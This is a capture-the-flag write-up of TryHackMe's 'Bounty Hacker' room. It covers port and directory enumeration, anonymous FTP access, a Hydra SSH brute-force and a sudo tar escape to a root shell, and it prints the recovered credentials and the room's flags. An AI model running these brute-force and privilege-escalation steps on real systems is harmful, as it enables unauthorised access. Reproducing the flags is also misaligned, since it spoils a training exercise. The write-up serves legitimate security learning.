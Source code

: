 # Lab Report - Bounty Hacker


# Overview 
- **Date**: 04/10/2025
- **Category**: Web, FTP
- **Difficulty**: Easy 
- **Platform**: Linux
- **Link**: https://tryhackme.com/room/cowboyhacker
- **Tags**: #enumeration #Brute-force #services #privesc 

## Challenge Description 
>**- An easy boot-to-root machine. 

## Resolution Summary 
>**We enumerated services using `Nmap`. Next we found an FTP server with Anonymous login enable, which contained information that allowed us to perform a brute-force attack on the SSH server. Finally, we escalated our privileges through misconfigured sudo permissions, involving the`tar` binary.

# Information Gathering 
## Active Reconnaissance 
- **As we were given an IP address, we  started by performing an `Nmap` port scan, we  scanned for services' version in order to uncover potential version-related vulnerabilities. 
```bash
sudo nmap -sV 10.10.181.45
```
- Note: adding the `-p-` flag did not reveal additional information. 

- **We got the following results from the `Nmap` scan:
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

- **Here we discovered several attack vectors to investigate, we started by the web application.** 
### HTTP (80)
- **For starters, we  ran `GoBuster` in order to discover hidden directories. We used SecList's medium list for this task:
```bash
gobuster dir -u 10.10.181.45 -w 
/usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt 
```

- **While the previous command was running, we took a look at the web, and particularly the source code since there was not much to it. However, we did not find anything relevant. 

- **We got the following results from `GoBuster`:
```bash
/images               (Status: 301) [Size: 313] [--> http://10.10.181.45/images/]
/javascript           (Status: 301) [Size: 317] [--> http://10.10.181.45/javascript/]
/server-status        (Status: 403) [Size: 277]
```

- **Just in case, we uploaded the only image available and checked its metadata for hidden information using `exiftool`: 
```bash
exiftool crew.png
```
- Note: it did not lead to any relevant track. 

- **Since there was not anything left to the web application, we proceeded to save the  usernames we encountered since we will be targeting the FTP and SSH server next:** 
```bash
Spike (the one supposed to hack the system), Jet, Ed, Faye, Edward, Ein.
```

### FTP (21)
- **Next,  we headed straight to the FTP server. We connected to it using the `ftp` command: 
```bash
ftp 10.10.181.45
```

- **One of the first reflexes we should have here is to attempt Anonymous login, which succeeded in this case. 
- **Another reflex would be to use `help` to list the available commands:
```bash
ftp> help
```

- **Upon further investigation, we encounter two .txt files, `locks.txt` and `task.txt`
- **The `locks.txt` file was formatted similar to a wordlist (containing passwords here), hence it may become handy when trying to brute-force  SSH credentials. 
- **The `task.txt` file revealed the following message, which provided us with more usernames to test when brute-forcing the SSH server: 
```bash
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```
# Exploitation 
- **Now that we were done with the enumeration step, we attempted to brute-force the SSH server with the wordlist we recovered (`locks.txt`). For this task we used  `Hydra`. 
- **First, we made a a user list with all the usernames we found up until now. Subsequently, we proceeded by using `Hydra`: 
```bash
hydra -L userlist.txt -P wordlist.txt ssh://10.10.181.45 
```

- **We found a valid pair of credentials : 
```bash
[DATA] attacking ssh://10.10.181.45:22/
[22][ssh] host: 10.10.181.45   login: lin   password: RedDr4gonSynd1cat3
```

- **Which allowed us to gain access to the SSH server (22) by using: 
```bash
ssh lin@10.10.181.45
```

- **Upon logging in, we were greeted by the first flag: 
	- **user.txt -> `THM{CR1M3_SyNd1C4T3}`.

# Privilege Escalation 
- **Our goal here was to find a way to escalate our privileges and access the final flag.
- **For started, we tried to see which command we could possibly use with sudo:
```bash
sudo -l
```

- **And here was the result: 
```bash
User lin may run the following commands on ip-10-10-181-45:
    (root) /bin/tar
```

- **Once we found this clue, we directly went to check on [GTFOBins](https://gtfobins.github.io/) for privileges escalation vectors. 
- **We found the following payload to use: 
```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

- **We confirmed that the attempt was successful by using: 
```bash 
whoami
root #Result
```

- **Finally, we were able to access the final flag:**
```bash
find / -type f -name "root.txt" 
cat /root/root.txt
THM{80UN7Y_h4cK3r}
```
# Trophy 
**User.txt → `THM{CR1M3_SyNd1C4T3}`

**Root.txt → `THM{80UN7Y_h4cK3r}`**

# Remediation Summary
- **Anonymous login:** It should be disable to reinforce authentication on FTP servers.  
- **Storing passwords in cleartext:** Passwords can be safely stored using trusted password managers. 
- **Misconfigured sudo permissions:**  Sudo usage should be restricted to essential commands only. 
# Lessons Learned
- **Any piece of information can be useful:** Saving usernames to make a wordlist was proven to be useful, as it permitted to successfully brute-force the SSH login credentials. 
- **GTFOBins in privesc**: Checking GTFOBins allows you to transform your findings into practical exploits. 
